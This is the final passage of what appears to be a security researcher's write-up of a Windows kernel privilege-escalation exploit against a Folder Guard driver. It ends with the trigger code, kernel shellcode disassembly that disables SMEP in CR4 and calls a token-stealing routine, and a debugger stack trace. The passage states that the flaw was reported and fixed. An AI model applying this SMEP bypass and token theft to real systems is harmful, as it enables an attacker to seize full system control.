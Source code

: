     CHAR  Buff;
    DWORD BytesRead;
    ReadFile(hObject, &Buff, 1, &BytesRead, NULL);

    SetThreadPriority(GetCurrentThread(), OldPriority);

Exit:
    if (hDevice != INVALID_HANDLE_VALUE)
    {
        CloseHandle(hDevice);
    }
    return;
}
{% endhighlight %}
And finally get our code executed in kernel mode:
```text
86522908 cc              int     3
86522909 e800000000      call    8652290e
8652290e 59              pop     ecx
8652290f 83e906          sub     ecx,6
86522912 0f20e0          mov     eax,cr4
86522915 0fbaf014        btr     eax,14h
86522919 0f22e0          mov     cr4,eax
8652291c ff5127          call    dword ptr [ecx+27h]  ds:0023:8652292f={E!ILT+8635(_StealSystemToken) (0097d1c0)}
8652291f 8b44241c        mov     eax,dword ptr [esp+1Ch]
86522923 31d2            xor     edx,edx
86522925 8910            mov     dword ptr [eax],edx
86522927 895004          mov     dword ptr [eax+4],edx
8652292a b001            mov     al,1
8652292c c22000          ret     20h
```
```text
kd> k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 8b44bb74 82cb5002 0x8652291c
01 8b44bc08 82a85b2d nt!NtReadFile+0x2e9
02 8b44bc08 771b6bb4 nt!KiSystemServicePostCall
03 0016f964 771b5dec ntdll!KiFastSystemCallRet
04 0016f968 7535c4fa ntdll!NtReadFile+0xc
05 0016f9cc 767b9e0a KERNELBASE!ReadFile+0x118
06 0016fa14 00983207 kernel32!ReadFileImplementation+0xf0
07 0016fb90 0098353b E!exploit+0x337
08 0016fd14 00983f2e E!main+0xfb
09 0016fd28 00983d91 E!invoke_main+0x1e [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 78] 
0a 0016fd80 00983c2d E!__scrt_common_main_seh+0x151 [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 283] 
0b 0016fd88 00983fa8 E!__scrt_common_main+0xd [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 326] 
0c 0016fd90 767befac E!mainCRTStartup+0x8 [f:\dd\vctools\crt\vcstartup\src\startup\exe_main.cpp @ 17] 
0d 0016fd9c 771d3628 kernel32!BaseThreadInitThunk+0xe
0e 0016fddc 771d35fb ntdll!__RtlUserThreadStart+0x70
0f 0016fdf4 00000000 ntdll!_RtlUserThreadStart+0x1b
```

#### [The end]
The vulnerability was reported to the vendor and fixed: https://www.winability.com/folder-guard-18-7-released/ 
Full source code of the exploit is available at github: 
